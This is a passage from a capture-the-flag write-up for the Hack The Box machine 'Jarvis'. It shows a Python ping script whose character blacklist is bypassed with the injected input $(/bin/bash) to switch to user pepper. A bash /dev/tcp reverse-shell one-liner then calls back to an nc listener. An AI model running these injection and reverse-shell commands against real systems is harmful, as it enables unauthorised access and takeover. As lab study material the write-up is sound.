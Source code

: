 ```

```

Looking more closely we can see several escape characters frequently used in command injection are blacklisted:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

However `$` is not blacklisted. 

Lets run:

```
www-data@jarvis:/$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<SNIP>
Enter an IP: $(/bin/bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
pepper@jarvis:/var/www/Admin-Utilities$ id
```

Cool, looks like we've switched users to pepper, but normal commands don't seem to be working.

Lets set up another listener and run:

```
/bin/bash -i >& /dev/tcp/10.10.14.216/443 0>&1
```

Which catches us a fully interactive shell:

```
┌──(ryan㉿kali)-[~/HTB/Jarvis]
└─$ nc -lnvp 443                                  
listening on [any] 443 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.229.137] 59868
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper
pepper@jarvis:/var/www/Admin-Utilities$ id
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```

we can now grab the user.txt flag:

![jarvis_user_flag.png](../assets/jarvis_assets/jarvis_user_flag.png)
